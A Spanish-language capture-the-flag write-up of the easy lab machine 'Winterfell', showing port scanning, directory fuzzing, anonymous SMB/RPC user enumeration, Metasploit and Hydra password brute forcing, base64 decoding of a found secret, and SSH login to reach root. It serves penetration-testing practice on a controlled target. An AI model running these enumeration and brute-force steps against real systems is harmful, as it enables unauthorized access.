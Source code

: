 # 🧊 Máquina: Winterfell

**Nivel:** Fácil

**Descripción:**
Winterfell es una máquina vulnerable de nivel fácil orientada a pruebas de intrusión en un entorno controlado. El objetivo es comprometer el sistema identificando vulnerabilidades a través de diversos vectores y técnicas, desde el reconocimiento inicial hasta la escalada de privilegios.

**Objetivo:**
Obtener acceso como usuario privilegiado (root) explotando debilidades en los servicios expuestos de la máquina.

> **Nota:** Durante la práctica, la máquina presentó inconsistencias en su comportamiento (por ejemplo, páginas que no cargaban correctamente y problemas al interactuar con el servicio SSH), lo cual requirió reiniciar el entorno varias veces y adaptar los procedimientos al entorno real.

---

## 🔧 Despliegue de la Máquina

Se descarga y despliega la máquina con los siguientes comandos:

```bash
unzip winterfell.zip
sudo bash auto_deploy.sh winterfell.tar
```

![](/Winterfell/Imagenes/Logo.png)
![](/Winterfell/Imagenes/Inicio.jpeg)

Verificamos conectividad con un `ping`:

```bash
ping -c 4 172.17.0.2
```

![](/Winterfell/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Realizamos un escaneo completo de puertos para identificar los servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Puertos abiertos detectados:

* **22/tcp** – SSH
* **80/tcp** – HTTP
* **139/tcp**, **445/tcp** – Servicios SMB/NetBIOS

![](/Winterfell/Imagenes/Puertos.jpeg)

Usamos un script personalizado para extraer los puertos relevantes:

```bash
extractPorts allPorts.txt
```

Escaneo con detección de versiones y scripts NSE:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![](/Winterfell/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis del Servicio Web (HTTP)

Accedemos al sitio web en el puerto 80. Inicialmente no cargaba correctamente, por lo que fue necesario reiniciar la máquina varias veces.

![](/Winterfell/Imagenes/Pagina.jpeg)

Al inspeccionar el código fuente, se identifican nombres que podrían estar relacionados con usuarios del sistema:

![](/Winterfell/Imagenes/CodigoFuente.jpeg)

---

## 🧭 Fuzzing de Directorios

Utilizamos **Gobuster** para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Se encuentra el directorio `/dragon`:

![](/Winterfell/Imagenes/Gobuster.jpeg)

Dentro se encuentran referencias a temporadas de una serie, posiblemente útiles como contraseñas:

![](/Winterfell/Imagenes/Directorio.jpeg)
![](/Winterfell/Imagenes/Contraseñas.jpeg)

Guardamos posibles usuarios y contraseñas en archivos `usuarios.txt` y `contraseña.txt`.

![](/Winterfell/Imagenes/Librerias.jpeg)

---

## 📁 Enumeración de Recursos SMB

Enumeramos los recursos compartidos con:

```bash
smbclient -L 172.17.0.2 -N
```

![](/Winterfell/Imagenes/Compartido.jpeg)

---

### 🔧 Análisis del Servicio RPC (SMB)

Se utilizó el comando:

```bash
rpcclient -U "" -N 172.17.0.2
```

Luego, ejecutamos:

```bash
enumdomusers
```

Esto nos muestra usuarios del dominio, entre ellos **jon**.

> **🛠 Explicación técnica:**
> `rpcclient` permite interactuar con el servicio RPC de SMB en Windows/Linux. Al usar `-U ""` y `-N`, se accede de forma anónima. El comando `enumdomusers` permite enumerar usuarios del dominio, útil para ataques de fuerza bruta u obtención de acceso.

![](/Winterfell/Imagenes/Usuario.jpeg)

---

### 📂 Acceso al recurso SMB como usuario

Conectamos al recurso compartido `shared` usando el usuario **jon**:

```bash
smbclient -U 'jon' //172.17.0.2/shared
```

Descargamos el archivo disponible:

```bash
get proteccion_del_reino
```

![](/Winterfell/Imagenes/smbdescarga.jpeg)
![](/Winterfell/Imagenes/smbls.jpeg)

---

## 🛠 Uso de Metasploit para SMB Login Bruteforce

Utilizamos el módulo de Metasploit `auxiliary/scanner/smb/smb_login` para forzar inicio de sesión SMB:

Configuración del módulo:

```
set RHOSTS 172.17.0.2
set SMBUser jon
set PASS_FILE /ruta/a/contraseña.txt
set THREADS 10
```

Resultado exitoso:

```
[+] 172.17.0.2:445 - Success: .\jon:seacercaelinvierno
```

![](/Winterfell/Imagenes/Metaexploit.jpeg)

---

## 🔐 Extracción y Decodificación de Contraseña

El archivo descargado contenía una cadena en base64:

```bash
cat proteccion_del_reino
echo "aGlqb2RlbGFuaXN0ZXI=" | base64 --decode
```

Resultado:

```text
hijodelanister
```

![](/Winterfell/Imagenes/Cat.jpeg)
![](/Winterfell/Imagenes/Bash64.jpeg)

---

## 🐍 Ataque de Fuerza Bruta a SSH

Con usuarios y contraseña decodificada:

```bash
hydra -L usuarios.txt -p hijodelanister ssh://172.17.0.2
```

Se obtiene acceso exitoso con:

* **Usuario:** jon
* **Contraseña:** hijodelanister

![](/Winterfell/Imagenes/Hydra.jpeg)

---

## 🔑 Acceso a la Máquina vía SSH

Ingresamos al sistema:

```bash
ssh jon@172.17.0.2
```

Verificamos permisos sudo:

```bash
sudo -l
```

Se logra escalada de privilegios hasta `root`.

![](/Winterfell/Imagenes/SSH.jpeg)
![](/Winterfell/Imagenes/root.jpeg)

---

## 🏁 Conclusión

Durante el análisis de la máquina **Winterfell**, se identificaron múltiples vectores de ataque:

* Enumeración efectiva de servicios web y SMB.
* Exposición de archivos con contraseñas en texto plano.
* Uso de herramientas como Gobuster, SMBClient, Metasploit y Hydra para automatizar y forzar accesos.
* Decodificación de información sensible y acceso al sistema vía SSH.

A pesar de los inconvenientes técnicos presentados, se logró cumplir con el objetivo de obtener acceso como superusuario (root), evidenciando la importancia de una configuración segura de servicios y la protección de información sensible.

